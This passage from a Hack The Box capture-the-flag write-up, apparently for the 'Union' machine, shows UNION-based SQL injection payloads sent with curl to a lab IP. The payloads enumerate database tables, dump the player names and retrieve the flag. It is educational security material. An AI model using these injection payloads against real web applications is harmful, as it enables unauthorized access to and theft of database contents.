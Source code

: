 Above I've just used sed to cut the text before and after the response we wanted to see. Now we know the database is called november, let's see the tables:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select group_concat('TABLE:',TABLE_NAME,'---->-COLUMN:',COLUMN_NAME,'\n') from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA = 'november' -- -" | sed 's/Sorry, //' | sed 's/,//' | sed 's/ you are not eligible due to already qualifying.//'
table:flag---->-column:one
table:players---->-column:player
```

Again, I've cut out the bit we are interested in and added labels to make it clear what we are looking at. We have two tables, let's look at them:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select group_concat(player) from players -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
ippsec,celesian,big0us,luska,tinyboy
```

The players table has ippsec and a few others. Note i used group concat here to retrieve all items in the table and return them as a single entry. Without that you would only be able to see them one at a time by iterating through.

## UHC Flag

Now the flag table:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select group_concat(one) from flag -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
UHC{F1rst_5tep_2_Qualify}
```

Just one entry which we can try on the website:

![union-website-flag-success](/assets/images/2022-01-10-22-00-11.png)
